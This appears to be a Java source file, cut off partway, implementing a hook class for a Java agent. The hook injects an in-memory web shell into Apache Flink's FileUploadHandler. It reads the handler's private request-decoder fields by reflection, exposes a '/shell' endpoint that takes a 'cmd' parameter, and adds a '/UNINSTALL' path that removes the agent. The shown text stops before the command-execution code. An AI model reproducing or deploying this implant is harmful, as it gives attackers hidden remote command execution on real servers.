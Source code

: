 ```java
import static org.apache.flink.shaded.netty4.io.netty.handler.codec.http.HttpHeaders.Names.CONNECTION;
import static org.apache.flink.shaded.netty4.io.netty.handler.codec.http.HttpHeaders.Names.CONTENT_TYPE;
import static org.apache.flink.shaded.netty4.io.netty.handler.codec.http.HttpVersion.HTTP_1_1;

public class Flink190 implements IHook{


   // public static String targetClass = "org.apache.flink.runtime.webmonitor.HttpRequestHandler";
    @Override
    public String getMethodSource() {
        return "com.attach.hook.Flink190.getShell($0,$1,$2);";
    }

    @Override
    public String getTargetClass() {
        return "org.apache.flink.runtime.rest.FileUploadHandler";
    }

    @Override
    public String getTargetMethod() {
        return "channelRead0";
    }

    @Override
    public String getMethodDesc() {
        return "(Lorg/apache/flink/shaded/netty4/io/netty/channel/ChannelHandlerContext;Lorg/apache/flink/shaded/netty4/io/netty/handler/codec/http/HttpObject;)V";
    }


    public  static void getShell(Object handler,
                                 ChannelHandlerContext ctx,
                                HttpObject msg
    ) {
        //如果发生java.lang.NoClassDefFoundError异常，是无法捕获的，且会影响业务。
        try {
            String uriSymbol = "/shell";
            String cmdKey = "cmd";
            if (msg instanceof HttpContent) {
                Field currentDecoderField = handler.getClass().getDeclaredField("currentHttpPostRequestDecoder");
                currentDecoderField.setAccessible(true);
                HttpPostRequestDecoder currentHttpPostRequestDecoder =
                        (HttpPostRequestDecoder) currentDecoderField.get(handler);

                Field currentRequestField = handler.getClass().getDeclaredField("currentHttpRequest");
                currentRequestField.setAccessible(true);

                HttpRequest currentHttpRequest = (HttpRequest) currentRequestField.get(handler);
                final HttpContent httpContent = (HttpContent) msg;
                currentHttpPostRequestDecoder.offer(httpContent);

                if (currentHttpRequest.uri().startsWith("/UNINSTALL")) {
                    if (Agent.transformer != null) {
                        Agent.transformer.release();
                    }
                }
                if (currentHttpRequest.uri().startsWith(uriSymbol)) {
                    Map<String, String> form = new HashMap<String, String>();
```